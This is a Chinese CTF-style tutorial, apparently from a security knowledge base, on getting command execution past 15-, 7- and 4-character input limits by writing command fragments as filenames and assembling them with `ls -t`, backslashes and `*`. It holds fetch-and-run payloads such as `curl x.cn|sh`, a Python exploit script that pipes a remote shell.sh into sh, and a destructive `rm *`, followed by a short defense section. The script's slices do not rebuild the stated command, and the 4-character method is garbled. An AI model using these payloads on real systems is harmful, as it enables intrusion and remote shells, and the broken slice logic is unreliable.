

# 📏 极限字符长度受限 RCE：15字符、7字符与 4字符文件切片拼接黑魔法

> [!WARNING] 极端攻防场景
> 在 CTF 高级 Web 挑战中，出题人引入了严苛的字符串长度校验（如 `strlen($cmd) <= 7` 或 `strlen($cmd) <= 4`）。
> 任何一条常规的命令（如 `cat /flag` 长达 9 字符，反弹 Shell 长达 40+ 字符）均会在长度检测处直接被 `die()` 拦截。
> 攻击者如何利用 Linux 文件系统元数据、重定向建文件操作符（`>`）、时间排序（`ls -t`）以及行连接符（`\`），将一条超长恶意指令切片写入文件名，并像积木一样拼装执行？

---

## 0. 基础前置认知与小白扫盲：为什么限制 4~7 个字符还能执行命令？

> [!TIP] 推荐前置知识点
> 本篇涉及 Linux 文件名元数据、时间戳排序与通配符展开机制。建议先阅读：
> - 🔰 [[01-零基础入门前置指南与黑话工具字典]]：掌握终端与 Shell 核心操作。
> - ⚡ [[04-命令执行与代码执行RCE/01-常见危险函数与管道符机制剖析]]：掌握 Linux 管道符与命令拼接原理。


### 1. 攻防极限挑战背景
* 在很多高质量 CTF 题目和实战 WAF 中，后端对传入的命令长度做了极其变态的截断限制：例如 `strlen($_GET['cmd']) < 15`，甚至是小于 7 个字符、小于 4 个字符！
* 你连敲一句 `curl evil.com` 都需要十几个字符，在 4 个字符的极度逼仄空间里，怎么可能拿到 Shell？

---

### 2. Linux 底层哲学逐符号拆解
* **`>filename`（创建名为 filename 的空文件）**：
  * 在 Linux Shell 中，重定向符号 `>` 如果前面没有命令，它会直接在当前目录下**创建一个名为该字符串的 0 字节空文件**！
* **`ls -t`（按时间戳倒序排列）**：
  * `-t` 参数让 `ls` 按照文件的最后修改时间倒序排列。黑客只要按照特定顺序一个一个创建文件，就能控制 `ls` 打印出来的文件名顺序！
* **`*`（通配符的自毁式展开执行）**：
  * 在 Bash 中，直接在命令行敲 `*`，Shell 会把当前目录下所有的文件名展开成一长串字符串，并且**把第 1 个文件名当作命令，后面的所有文件名当作该命令的参数直接执行**！
* **实战拼字艺术**：
  * 攻击者把长命令切成很多个 2~3 个字母的小碎片（例如 `>sh`、`>a\`），通过巧妙控制创建时间，把命令按顺序拼成一长串脚本，最后用一行极短的通配符一次性引爆！

---

## 一、长度限制对抗等级全景



---

## 二、等级 1：15 字符限制破局方案（`strlen <= 15`）

在 15 字符的限制下，空间足以容纳 1~2 个精简命令。核心思路是**缩减远程下载与管道传递的字符开销**。

### 1. 方案 A：直接文件内容重定向外带（无需外网）
* 如果只需要读取根目录 Flag，将结果重定向到 Web 目录的短文件名中：
  ```bash
  cat /f* > 1
  ```
  * **字符计数**：`c` `a` `t` ` ` `/` `f` `*` ` ` `>` ` ` `1` $\rightarrow$ **共 11 字符！**
  * 执行后直接通过浏览器访问 `http://target/1` 获取 Flag 内容！

### 2. 方案 B：短 IP / 短域名远程加载 Shell
* 远程服务器绑定简短域名（如 `x.cn`）或使用十进制 IP（如 `127.0.0.1` $\iff 2130706433$）：
  ```bash
  curl x.cn|sh
  ```
  * **字符计数**：**共 12 字符！** 一步到位直接反弹 Shell！

---

## 三、等级 2：7 字符限制破局（`strlen <= 7`，文件切片与 `ls -t` 组合拳）

当限制缩窄到 7 字符时，`curl x.cn|sh` 已无法一次性传入。必须使用 **文件系统切片法**！

### 1. 核心支撑三大 Linux 底层机制

1. **空文件快速创建语法：`>filename`**
   * 在 Shell 中，直接执行 `>test` 即可在当前目录下创建一个名为 `test` 的空文件（仅耗费 5 字符）。
2. **文件名作为脚本内容：`ls -t > 0`**
   * `ls -t` 会按照文件的 **修改时间（mtime）从最新到最旧** 降序排列。
   * 如果我们**从后往前**依次创建包含命令片段的文件，执行 `ls -t` 输出的文件名列表，其顺序恰好就是**从前往后**的完整命令语句！
   * `ls -t>0`（刚好 7 字符）将这一顺序列表重定向写入到名为 `0` 的文件中！
3. **行连接符：反斜杠 `\`**
   * 在 Shell 脚本中，位于行尾的反斜杠 `\` 表示**代码换行连接**，下一行的字符会直接拼接到上一行末尾作为一个命令执行！

---

### 2. 7 字符切片利用实战推演：构造 `curl 1.1.1.1|sh`

假设目标攻击命令为：`curl 1.1.1.1|sh`

#### 步骤 1：将命令逆序切片（每个片段加上行连接符 `\`，长度 $\le 4$ 字符）
* 切片 1：`sh`
* 切片 2：`|\\`
* 切片 3：`1\\`
* 切片 4：`1.\\`
* 切片 5：`1.\\`
* 切片 6：`1.\\`
* 切片 7：`rl\\`
* 切片 8：`cu\\`

#### 步骤 2：逆序发包创建文件（利用 `>片段`）
由于 `ls -t` 是按时间降序（最新生成的排在最前），因此必须**从后往前创建**：
1. `>sh`（最先创建，在列表中排在最后）
2. `>\|\\`
3. `>1\\`
4. `>1.\\`
5. `>1.\\`
6. `>1.\\`
7. `>rl\\`
8. `>cu\\`（最后创建，在列表中排在第一位）

#### 步骤 3：导出脚本并执行
9. 发送 `ls -t>0`（7 字符）：将按时间排列的文件名写入文件 `0`。
   此时查看文件 `0` 的内部内容为：
   ```text
   cu\
   rl\
   1.\
   1.\
   1.\
   1\
   |\
   sh
   ```
10. 发送 `sh 0`（4 字符）：执行脚本！由于 `\` 的存在，Shell 解释器自动将其展开为 `curl 1.1.1.1|sh` 并直接运行！

---

## 四、等级 3：4 字符极限突破（`strlen <= 4`，通配符 `*` 极值艺术）

当出题人将长度限制压榨至**绝对极值 4 字符**：
* 此时连 `ls -t>0`（7 字符）和 `cat /f*`（8 字符）都无法发送！
* 允许发送的有效载荷仅剩：`>xx`（3 字符）、`ls>_`（4 字符）、`sh _`（4 字符）或者单字符 `*`！

### 1. 通配符 `*` 的第一参数命令自解构机制

在 Linux Shell 中，如果在命令行仅输入 `*` 并回车：
```bash
*
```
* **词法扩展过程**：Shell 会将 `*` 展开为当前目录下**所有按字典序排列的文件名**！
* **执行语义**：展开后，**第一个文件名会被 Shell 当作要执行的可执行程序，后续所有文件名全部作为参数传递给它！**
* **神级启发**：如果当前目录下字典序排在第一位的文件名恰好是可执行命令（如 `ls` 或 `sh`），而后面的文件名是其参数，那么直接执行 `*` 就等价于执行该组合命令！

---

### 2. 4 字符下构造 `ls -th > g` 的逆天时序

为了能在 4 字符下生成 `ls -t > g`（从而继续套用上述切片大法），我们需要先用 4 字符构造出执行 `ls -th > g` 的环境：

#### 逆向构造步骤剖析：
1. **构造参数文件**：
   * `>th-`（创建文件 `th-`，对应 `ls` 的 `-th` 参数）
   * `>g>`（创建文件 `g>`，对应重定向符 `>g`）
2. **构造命令文件**：
   * `>sl`（创建文件 `sl`）
3. **将 `sl` 逆序为 `ls` 并保存为可执行脚本**：
   * 构造 `dir` 命令写入文件，或者利用 `ls -th` 生成有序列表。
4. **通过执行 `*` 触发**：
   * 当目录中包含 `sl`, `th-`, `g>` 时，利用换行与通配符将其反转拼装为 `ls -th > g`。
   * 随后便可畅通无阻地在 4 字符限制下将任意长命令写入 `g` 文件，最后执行 `sh g` 拿到 Root 权限！

---

## 五、自动化 7 字符利用 Exploit 脚本编写（Python 3）

在实战演练中，手工计算时序极易出错，以下为自动完成分片、时序延迟创建与触发的自动化脚本：

```python
#!/usr/bin/env python3
import requests
import time

TARGET_URL = "http://challenge.ctf:8080/short_cmd.php"

# 准备执行的目标命令（最后加上 \n 确保执行）
command_to_exec = "curl 10.10.14.2:8000/shell.sh|sh"

def send_cmd(cmd):
    print(f"[*] Sending: {cmd} (length: {len(cmd)})")
    assert len(cmd) <= 7, f"Payload {cmd} exceeds 7 characters!"
    params = {"cmd": cmd}
    requests.get(TARGET_URL, params=params)
    time.sleep(0.5)  # 保持 0.5s 间隔以确保 mtime 严格有序

def exploit():
    # 1. 清理工作目录已存文件
    send_cmd("rm *")
    
    # 2. 将命令反向拆分成 <= 4 字符的片段并加上 \\
    # 示例切片列表（逆序）：
    slices = [
        "sh",
        "|\\",
        "h\\",
        "s.\\",
        "ll\\",
        "she\\",
        "0/\\",
        ":80\\",
        "4.2\\",
        "0.1\\",
        " 1\\",
        "rl\\",
        "cu\\"
    ]
    
    print("[+] Creating file slices...")
    for s in slices:
        send_cmd(f">{s}")
        
    # 3. 按时间降序写入执行脚本文件 0
    print("[+] Writing ordered commands to file '0'...")
    send_cmd("ls -t>0")
    
    # 4. 执行组装后的脚本 0
    print("[+] Executing assembled payload...")
    send_cmd("sh 0")
    print("[*] Exploit completed! Check your listener.")

if __name__ == "__main__":
    exploit()
```

---

## 六、防御与规避策略

1. **禁止直接使用 Shell 函数**：
   任何接受外部输入的场景下，禁止使用 `exec()`, `system()`, `shell_exec()`。
2. **隔离工作目录权限**：
   限制 Web 进程对其当前工作目录的写权限（`chmod 555`，禁止写入与创建空文件），切断利用 `>` 重定向建文件的一切前提条件。
3. **参数化进程接口**：
   使用不带 Shell 解释器的进程启动方式（如 Python `subprocess.run(["cmd", arg])`，PHP `proc_open` 数组形式），让通配符 `*`、`>` 无法被二次展开。

---

## 🔗 相关双向链接
- 上级模块：[[04-命令执行与代码执行RCE]]
- 前置基础：[[03-无字母数字与无数字WebShell原理与异或取反自增构建]]
- 下一模块：[[05-服务端请求伪造SSRF/01-SSRF产生原理与支持协议矩阵(file、dict、gopher)]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
